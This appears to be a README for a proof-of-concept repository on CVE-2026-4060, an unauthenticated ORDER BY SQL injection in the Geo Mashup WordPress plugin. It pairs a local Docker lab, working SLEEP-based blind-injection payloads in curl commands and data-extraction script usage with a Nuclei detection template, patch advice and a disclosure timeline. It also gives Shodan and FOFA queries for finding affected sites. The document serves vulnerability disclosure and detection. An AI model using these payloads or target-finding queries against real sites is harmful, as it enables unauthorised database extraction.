




# CVE-2026-4060 — Geo Mashup ≤ 1.13.18 Unauthenticated SQL Injection PoC


-blue)


> **Unauthenticated** attackers can inject arbitrary SQL into the `ORDER BY` clause via the `sort` parameter of the Geo Mashup `render-map` endpoint, enabling time-based blind extraction of sensitive database information.

---

## Table of Contents

- [Vulnerability Overview](#vulnerability-overview)
- [Test Environment](#test-environment)
- [How to Run](#how-to-run)
- [Test Results](#test-results)
- [Mitigation](#mitigation)
- [Detection](#detection)
- [Timeline](#timeline)
- [References](#references)

---

## Vulnerability Overview

| Field | Detail |
|-------|--------|
| **CVE** | CVE-2026-4060 |
| **Plugin** | [Geo Mashup](https://wordpress.org/plugins/geo-mashup/) by cyberhobo |
| **Affected** | ≤ 1.13.18 |
| **Fixed in** | 1.13.19 |
| **CVSS v3.1** | 7.5 (High) — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | [CWE-89](https://cwe.mitre.org/data/definitions/89.html) — Improper Neutralization of Special Elements in SQL |
| **Auth required** | None (Unauthenticated) |

### Technical Detail

The `sort` parameter accepted by the `render-map` endpoint is passed directly into a `$wpdb->get_results()` call without sanitization:

```php
// render-map.php (simplified)
$sort = $_GET['sort'];
$results = $wpdb->get_results(
    "SELECT ... FROM wp_geo_mashup_locations ... ORDER BY $sort"
);
```

Because `$sort` is interpolated as-is, an attacker can inject a subquery into the `ORDER BY` clause. WordPress's `wpdb` escapes single quotes, so the PoC uses `ORD(SUBSTRING(...))` with numeric comparisons to bypass this restriction and perform time-based blind extraction.

**Vulnerable endpoint:**
```
GET /?geo_mashup_content=render-map&map_content=global&sort=<PAYLOAD>
```

---

## Test Environment

| Component | Version |
|-----------|---------|
| OS | macOS (Darwin 25.4.0) |
| Docker | 27.x |
| WordPress | 6.8.2 (PHP 8.2, Apache) |
| MariaDB | 11.4 |
| Geo Mashup | **1.13.18** (vulnerable) |
| Python | 3.x (for `poc.py`) |
| Nuclei | v3.8.0 |

### Lab Architecture

```
┌─────────────────────────────────┐
│  Host (localhost:8080)          │
│                                 │
│  ┌─────────────┐  ┌──────────┐  │
│  │ WordPress   │  │ MariaDB  │  │
│  │ 6.8.2+PHP82 │──│  11.4    │  │
│  │ :80         │  │ :3306    │  │
│  └─────────────┘  └──────────┘  │
│       + Geo Mashup 1.13.18      │
└─────────────────────────────────┘
```

Geo Mashup 1.13.18 active in WordPress admin:



---

## How to Run

### 1. Start the lab

```bash
git clone https://github.com/ydking0911/CVE-2026-4060-PoC.git
cd CVE-2026-4060-PoC
bash setup.sh
```

`setup.sh` will:
- Spin up WordPress 6.8.2 + MariaDB 11.4 containers
- Install and activate Geo Mashup **1.13.18** (vulnerable version) via WP-CLI
- Create a geo-tagged post so the map endpoint returns a valid response

Once complete:
- **Site:** `http://localhost:8080`
- **Admin:** `http://localhost:8080/wp-admin` (user: `admin` / pass: `admin`)

### 2. Confirm vulnerability (SLEEP injection)

```bash
time curl -s -o /dev/null \
  "http://localhost:8080/?geo_mashup_content=render-map&map_content=global&sort=%28SELECT%280%29FROM%28SELECT%28SLEEP%288%29%29%29a%29"
```

A response delay of ~8 seconds confirms `ORDER BY` SQL injection.

### 3. Extract data (PoC)

```bash
# Default — print extracted results only
python3 poc.py --url http://localhost:8080

# Verbose — show each payload, response time, and extracted character
python3 poc.py --url http://localhost:8080 --verbose

# Confirm SQLi only, skip data extraction
python3 poc.py --url http://localhost:8080 --confirm-only
```

### 4. Run Nuclei detection template

```bash
nuclei -t nuclei/CVE-2026-4060.yaml -u http://localhost:8080
```

### 5. Tear down the lab

```bash
docker compose down -v
```

---

## Test Results

### True Positive (TP) — Vulnerable target

#### TP-1: ORDER BY SLEEP(8) injection confirmed

Injecting a `SLEEP(8)` subquery via the `sort` parameter produces an ~8-second response delay.

```bash
time curl -s -o /dev/null \
  "http://localhost:8080/?...&sort=%28SELECT%280%29FROM%28SELECT%28SLEEP%288%29%29%29a%29"
```



#### TP-2: Data extraction (verbose mode)

The PoC extracts data character by character using `ORD(SUBSTRING(...))` comparisons: send payload → measure response time → confirm character when SLEEP fires.

```bash
python3 poc.py --url http://localhost:8080 --verbose
```



**Extracted data:**

| Query | Result |
|-------|--------|
| `VERSION()` | `11.4.10-MariaDB` |
| `DATABASE()` | `wordpress` |
| `USER()` | `wordpress@172.23.0.3` |

#### TP-3: Nuclei template detection

```
[CVE-2026-4060] [http] [high]
http://localhost:8080/?geo_mashup_content=render-map&map_content=global&sort=%28SELECT%280%29FROM%28SELECT%28SLEEP%288%29%29%29a%29

Scan completed in 8.07s. 1 matches found.
```

---

### False Positive (FP) — Non-vulnerable target

The Nuclei template uses a two-step flow to prevent false positives.

#### FP-1: Geo Mashup not installed

If `readme.txt` returns 404 in Step 1, the scan exits immediately without sending the SQL payload.

```
Scan completed in 62ms. 0 matches found.   ✅
```

#### FP-2: Patched version (≥ 1.13.19)

Plugin version check via `readme.txt`:



If `compare_versions(version, '<= 1.13.18')` fails, Step 2 is skipped entirely.

```
Scan completed in 19ms. 0 matches found.   ✅
```

---

## Mitigation

| Action | Detail |
|--------|--------|
| **Update** | Upgrade Geo Mashup to **1.13.19** or later |
| **Temporary** | Deactivate the plugin until an update is applied |
| **WAF** | Block subquery injection patterns in `ORDER BY` clauses |

Patch commit: [plugins.trac.wordpress.org/changeset/3503627](https://plugins.trac.wordpress.org/changeset/3503627/)

---

## Detection

Nuclei template: [`nuclei/CVE-2026-4060.yaml`](nuclei/CVE-2026-4060.yaml)

**Detection flow:**

```
Step 1: GET /wp-content/plugins/geo-mashup/readme.txt
        → confirm plugin exists + version <= 1.13.18

Step 2: GET /?geo_mashup_content=render-map&...&sort=SLEEP(8)
        → status 200 + GeoMashup.createMap + duration >= 8s
```

**Shodan / FOFA:**

```
Shodan: http.html:"geo-mashup"
FOFA:   body="geo-mashup"
```

---

## Timeline

| Date | Event |
|------|-------|
| 2026-04 | Vulnerability discovered |
| 2026-04 | Reported to plugin author |
| 2026-05 | Geo Mashup 1.13.19 patch released |
| 2026-05-14 | CVE assigned and publicly disclosed |

---

## References

- [NVD — CVE-2026-4060](https://nvd.nist.gov/vuln/detail/CVE-2026-4060)
- [Wordfence Advisory](https://www.wordfence.com/threat-intel/vulnerabilities/id/2fa5ae9a-532c-40f9-b70a-217f0f9cd473?source=cve)
- [Plugin Changeset (fix)](https://plugins.trac.wordpress.org/changeset/3503627/)
- [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

---

## Disclaimer

This repository is for **educational and authorized security testing purposes only**.  
Do not use against systems you do not own or have explicit written permission to test.  
The author is not responsible for any misuse of this material.
